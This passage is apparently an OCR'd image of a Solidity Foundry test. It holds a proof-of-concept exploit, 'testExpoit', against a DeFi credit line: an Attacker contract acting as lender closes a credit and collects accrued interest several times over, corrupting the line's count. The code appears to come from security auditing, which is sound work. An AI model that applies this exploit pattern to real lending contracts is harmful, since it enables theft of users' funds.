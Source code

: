 ```
          0
        );
        lender = address(new Attacker(address(line), borrower, address(supportedToken1)));
        assertEq(supportedToken1.registry(lender), true);
        
        escrow.updateLine(address(line));
        spigot.updateOwner(address(line));
        
        assertEq(uint(line.init()), uint(LineLib.STATUS.ACTIVE));

        _mintAndApprove();
        escrow.enableCollateral( address(supportedToken1));
        escrow.enableCollateral( address(supportedToken2));
   
        vm.startPrank(borrower);
        escrow.addCollateral(1 ether, address(supportedToken2));
        vm.stopPrank();
    }

    function testExpoit() public {
        _addCredit(address(supportedToken1), 1 ether);
        bytes32 id = line.ids(0);
        vm.warp(line.deadline() - ttl / 2);
        line.accrueInterest();
        (uint256 deposit, , uint256 interestAccrued, , , , ) = line.credits(id);
        uint256 lenderBalanceBefore = supportedToken1.balanceOf(lender);
        uint256 lenderBalanceAfterExpected = lenderBalanceBefore + deposit + interestAccrued;

        Attacker(lender).enableAttack();
        hoax(lender);
        line.close(id);
        vm.stopPrank();
        uint256 lenderBalanceAfter = supportedToken1.balanceOf(lender);
        assertEq(lenderBalanceAfter, lenderBalanceAfterExpected + interestAccrued * ATTACK_COUNT);
        (uint256 count,) = line.counts();
        assertEq(count, MAX_INT - ATTACK_COUNT + 1);
    }


    function _mintAndApprove() internal {
        deal(lender, mintAmount);

        supportedToken1.mint(borrower, mintAmount);
        supportedToken1.mint(lender, mintAmount);
        supportedToken2.mint(borrower, mintAmount);
        supportedToken2.mint(lender, mintAmount);
        unsupportedToken.mint(borrower, mintAmount);
        unsupportedToken.mint(lender, mintAmount);

        vm.startPrank(borrower);
        supportedToken1.approve(address(escrow), MAX_INT);
        supportedToken1.approve(address(line), MAX_INT);
        supportedToken2.approve(address(escrow), MAX_INT);
        supportedToken2.approve(address(line), MAX_INT);
        unsupportedToken.approve(address(escrow), MAX_INT);
        unsupportedToken.approve(address(line), MAX_INT);
        vm.stopPrank();

        vm.startPrank(lender);
        supportedToken1.approve(address(escrow), MAX_INT);
        supportedToken1.approve(address(line), MAX_INT);
        supportedToken2.approve(address(escrow), MAX_INT);
        supportedToken2.approve(address(line), MAX_INT);
```